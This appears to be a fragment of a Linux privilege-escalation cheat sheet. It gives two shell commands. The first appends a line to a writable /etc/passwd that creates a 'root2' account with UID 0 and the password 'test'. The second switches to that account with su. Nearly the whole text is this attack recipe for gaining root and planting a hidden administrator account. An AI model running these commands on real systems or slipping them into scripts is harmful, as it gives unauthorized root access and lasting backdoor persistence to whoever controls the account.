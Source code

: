 ```shell
echo "root2:$(openssl passwd test):0:0:root:/root:/bin/bash" >> /etc/passwd # If /etc/passwd is writable that add "root2" user with password "test"
```

```shell
su root2
```


